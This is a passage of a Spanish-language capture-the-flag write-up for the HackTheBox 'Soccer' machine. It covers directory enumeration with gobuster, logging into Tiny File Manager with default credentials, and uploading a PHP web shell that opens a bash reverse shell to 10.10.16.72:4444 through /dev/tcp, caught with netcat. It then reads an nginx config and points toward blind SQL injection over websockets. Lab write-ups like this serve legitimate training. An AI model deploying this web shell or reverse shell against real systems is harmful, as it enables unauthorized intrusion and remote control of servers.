 ```gobuster
/.htaccess            (Status: 403) [Size: 162]
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
Progress: 20429 / 20470 (99.80%)===============================================================
2022/12/19 13:04:38 Finished
```

Usando la herramienta "gobuster" descubrimos que tiene un subdirectorio llamado "tiny"

![image](https://user-images.githubusercontent.com/109216235/208491633-e084a3e6-4f79-429d-863f-116fc812e1f3.png)


# [](#header-2) Vulnerabilidad


Buscamos sobre "Tiny File Manager" y descubrimos que tiene un github con las credenciales por defecto (https://github.com/prasathmani/tinyfilemanager/blob/master/tinyfilemanager.php)

Mirando por la página vemos que podemos subir archivos en la carpeta ```/tiny```. Nos preparamos una cmd en php y la subimos a la página

```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.16.72/4444 0>&1'")
?>
```

Subimos este archivo, activamos netcat con el puerto ```nc -lnvp 4444``` que hayamos puesto en el script anterior y lo ejecutamos añadiendo /uploads/cmd.php a la url. Así conseguimos una revershell de www-data

Investigando el interior de la plataforma, encontramos en la carpeta ```/etc/nginx/sites-available``` donde esta el archivo soc-player.htb

```javascript
cat soc-player.htb
server {
 listen 80;
 listen [::]:80;
 server_name soc-player.soccer.htb;
 root /root/app/views;
 location / {
  proxy_pass http://localhost:3000;
  proxy_http_version 1.1;
  proxy_set_header Upgrade $http_upgrade;
  proxy_set_header Connection 'upgrade';
  proxy_set_header Host $host;
  proxy_cache_bypass $http_upgrade;
 }
}
```

Así localizamos que soccer.htb tiene un subdominio y lo añadiremos a nuestro /etc/hosts. En esa página nos podemos registrar y al hacerlo nos dan un ticket y viendo el codigo de la pagina vemos que usa websocket. Buscando sobre "SQLi websocket" encontramos un blog (https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) sobre como explotar esta vulnerabilidad.
